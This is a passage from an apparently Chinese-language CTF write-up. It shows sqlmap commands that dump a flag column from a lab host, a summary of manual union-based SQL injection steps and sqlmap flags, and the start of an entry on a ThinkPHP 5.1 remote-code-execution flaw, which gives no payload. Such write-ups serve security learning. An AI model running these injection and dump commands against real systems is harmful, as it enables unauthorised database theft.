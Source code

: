 >       ```sh
>       sqlmap -u http://192.168.100.161:53459 --data "search=df" -dbs
>       ```
> 3. 获取库内表信息
>       ```sh
>       sqlmap -u http://192.168.100.161:53459 --data "search=df" -D news --tables
>       ```
> 4. 获取表内字段信息
>       ```bash
>       sqlmap -u http://192.168.100.161:53459 --data "search=df" -D news -T secret_table --columns
>       ```
> 5. 获取字段内容，得到flag
>       ```sh
>       sqlmap -u http://192.168.100.161:53459 --data "search=df" -D news -T secret_table -C "fl4g" --dump
>       ```

**总结**：

手动注入：
1. 单引号找注入点，闭合单引号、用`#`或“`-- `”（两杠后须有空格）注释
2. ```order by```测字段数
3. union select ```information_schema.columns```中的```table_schema```（数据库名）和```tabel_name```（表名），前面加```and 0```清除正常查询出的内容
4. union select ```information_schema.columns```中的```column_name```和```data_type```获取指定表的字段名和数据类型
5. 查表获得flag

SQLMAP使用：
* ```-u``` 指定目标url
* ```--data``` 指定请求体数据
* ```-dbs``` 获取数据库列表
* ```-D``` 指定数据库
* ```--tables``` 获取表列表
* ```-T``` 指定表
* ```--columns``` 获取字段列表
* ```-C``` 指定字段（字段名要加双引号）
* ```--dump``` 获取指定字段的值

2020.2.24.Mon

---


# 4. php_rce

**题目来源**：暂无  
**题目描述**：暂无

**WP**:
> **原理**  
> ThinkPHP5框架底层对控制器名过滤不严，可以通过url调用到ThinkPHP框架内部的敏感函数，进而导致getshell漏洞。
> 
> **目的**  
> 掌握框架漏洞
> 
> **环境**  
> Windows
> 
> **工具**  
> firefox
> 
> **步骤**
> 1. 根据主页提示，可以发现网页使用的是ThinkPHP框架，版本为5.1
> 2. 此版本存在getshell漏洞（百度一下poc一抓一大把）
> 3. 查找flag  